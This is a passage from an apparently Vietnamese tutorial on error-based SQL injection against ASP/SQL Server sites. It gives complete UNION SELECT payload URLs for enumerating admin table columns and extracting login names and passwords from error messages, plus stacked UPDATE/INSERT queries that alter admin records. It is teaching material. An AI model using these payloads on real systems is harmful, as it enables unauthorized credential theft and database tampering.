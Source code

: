   - mã: `http://yoursite.com/index.asp?id=10 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='admin_login' WHERE COLUMN_NAME NOT IN ('login_id')--` - Khi đó thông báo lỗi của SQL Server có thể như sau: Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'login_name' to a column of data type int. /index.asp, line 5 - Làm tương tự như trên, có thể lấy được tên của các column còn lại như “password“, “details“. Khi đó ta lấy tên của các column này qua các thông báo lỗi của SQL Server, như ví dụ sau: - mã: `http://yoursite.com/index.asp?id=10 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='admin_login' WHERE COLUMN_NAME NOT IN ('login_id','login_name','password',details')--`
    **5. THU THẬP CÁC DỮ LIỆU QUAN TRỌNG** - Có thể lấy login_name đầu tiên trong table “admin_login” như sau: - mã: `http://yoursite.com/index.asp?id=10 UNION SELECT TOP 1 login_name FROM admin_login--` - Khi đó thông báo lỗi của SQL Server có thể như sau: Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'neo' to a column of data type int. /index.asp, line 5 - Dễ dàng nhận ra được admin user đầu tiên có login_name là “neo”. Hãy thử lấy password của “neo” như sau: - mã: `http://yoursite.com/index.asp?id=10 UNION SELECT TOP 1 password FROM admin_login where login_name='neo'--` - Khi đó thông báo lỗi của SQL Server có thể như sau: Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'm4trix' to a column of data type int. /index.asp, line 5 - Và bây giờ là đã có thể login vào với username là “neo” và password là “m4trix“.
    **6. NHẬN CÁC NUMERIC STRING** - Có một hạn chế nhỏ đối với phương pháp trên. Chúng ta không thể nhận được các error message nếu server có thể chuyển text đúng ở dạng số (text chỉ chứa các kí tự số từ 0 đến 9). Giả sử như password của “trinity” là “31173“. Vậy nếu ta thi hành lệnh sau: - mã: `http://yoursite.com/index.asp?id=10 UNION SELECT TOP 1 password FROM admin_login where login_name='trinity'--` - Thì khi đó chỉ nhận được thông báo lỗi “Page Not Found“. Lý do bởi vì server có thể chuyển passoword “31173” sang dạng số trước khi UNION với integer 10. Để giải quyết vấn đề này, chúng ta có thể thêm một vài kí tự alphabet vào numeric string này để làm thất bại sự chuyển đổi từ text sang số của server. Dòng query mới như sau: - mã: `http://yoursite.com/index.asp?id=10 UNION SELECT TOP 1 convert(int, password%2b'%20morpheus') FROM admin_login where login_name='trinity'--` - Chúng ta dùng dấu cộng (+) để nối thêm text vào password (ASCII code của ‘+’ là 0x2b). Chúng ta thêm chuỗi ‘(space)morpheus’ vào cuối password để tạo ra một string mới không phải numeric string là ‘31173 morpheus’. Khi hàm convert() được gọi để chuyển ‘31173 morpheus’ sang integer, SQL server sẽ phát lỗi ODBC error message sau - Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value '31173 morpheus' to a column of data type int. /index.asp, line 5 - Và nghĩa là bây giờ ta cũng có thể login vào với username ‘trinity‘ và password là ‘31173‘
    **7. THAY ĐỔI DỮ LIỆU (UPDATE/INSERT) CỦA CSDL** - Khi đã có tên của tất cả các column trong table, có thể sử dụng lệnh UPDATE hoặc INSERT để sửa đổi/tạo mới một record vào table này. Để thay đổi password của “neo“, có thể làm như sau: - mã: ` http://yoursite.com/index.asp?id=10; UPDATE 'admin_login' SET 'password' = 'newpas5' WHERE login_name='neo'--` - Hoặc nếu bạn muốn một record mới vào table: - mã: `http://yoursite.com/index.asp?id=10; INSERT INTO 'admin_login' ('login_id', 'login_name', 'password', 'details') VALUES (666,'neo2','newpas5','NA')--`

- **một số trường hợp SQL injection phổ biến như sau:**

  - **Retrieving hidden data**: Với loại này, bạn sẽ có thể thao túng SQL query để database trả về các kết quả mà đáng lý bạn không được phép truy cập;
  - **Subverting application logic**: Trường hợp này, bạn sẽ thao túng query để đâm thọc vô quá trình xử lý logic của ứng dụng. Đây là kiểu hay gặp trong tình huống xử lý đăng nhập của user. Đối tượng tấn công có thể dùng thủ thuật để cắn xén query nhằm thoát khỏi yêu cầu cung cấp password;
  - **UNION attack**: Với dạng này, bạn sẽ có thể truy cập dữ liệu từ nhiều bảng khác nhau của database với từ khóa UNION;
  - **Examining the database**: Kiểu này bạn sẽ có thể truy cập thông tin về phiên bản và cấu trúc của database. Các thông tin sẽ là bàn đạp để bạn tinh chỉnh các phương án tấn công để tăng tính hiệu quả;
